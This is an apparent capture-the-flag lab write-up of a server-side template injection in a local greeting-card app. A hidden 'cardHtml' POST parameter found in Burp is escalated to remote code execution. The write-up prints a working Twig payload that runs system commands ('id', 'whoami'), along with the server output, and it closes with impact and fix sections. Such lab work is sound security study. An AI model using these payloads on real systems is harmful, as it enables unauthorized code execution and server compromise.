







# SSTI 0x02 [Challenge]

## What is this challenge?
A Greeting Card Generator with multiple input
fields (Recipient, Image, Sender). The challenge
is to find the SSTI injection point. The visible
fields are sanitized but a hidden parameter
cardHtml in the POST request is vulnerable.

## Target
http://localhost:81/ssti0x02.php

## Vulnerability
The application sanitizes user input from the
form fields before rendering. However, the
cardHtml parameter (sent in the POST body) is
passed directly to the Twig template engine
without sanitization.

## Attack

### Step 1 — Identify the lab
Opened SSTI 0x02 Greeting Card Generator with
fields: Recipient, Image, Sender.

### Step 2 — Test SSTI in form fields
Entered {{7*7}} in Recipient and Sender fields.
Result: "Dear {{7*7}}" — payload reflected as
plain text. The visible inputs are sanitized.

### Step 3 — Inspect POST request in Burp
Sent request through Burp Suite Repeater.
Found a hidden parameter cardHtml in the body:
cardHtml=%3Cdiv%3E...Dear+%7B%7B7*7%7D%7D...
This is URL-encoded HTML containing our payload.

### Step 4 — Modify cardHtml directly in Burp
Sent the request with {{7*7}} inside cardHtml
parameter through Burp Repeater.
Response: "Dear 49" — SSTI confirmed in
cardHtml parameter!

### Step 5 — Escalate to RCE
Modified cardHtml parameter with Twig filter
payload:
{{['id']|filter('system')}}

### Step 6 — Confirm RCE via Burp
Response returned:
"From uid=33(www-data) gid=33(www-data)
groups=33(www-data) Array"

Successfully achieved Remote Code Execution
through the hidden cardHtml parameter!

## Payloads Used
```twig
# In cardHtml parameter (URL-encoded in POST body)
{{7*7}}
{{['id']|filter('system')}}
{{['whoami']|filter('system')}}
```

## Key Lesson
Even when visible inputs are sanitized — always
check hidden parameters, headers, and cookies in
Burp Suite. Many bugs hide in parameters the
front-end doesn't show.

## Screenshots








## Impact
- Full Remote Code Execution on the server
- Bypasses front-end input sanitization
- Read any file accessible to www-data
- Reverse shell possible
- Complete application compromise

## Fix
- Sanitize ALL parameters — not just visible ones
- Never pass any user-controlled data to templates
- Use sandboxed template environments
- Validate and escape on the server side only
- Do not rely on client-side validation alone
- Audit all POST/GET parameters in code review
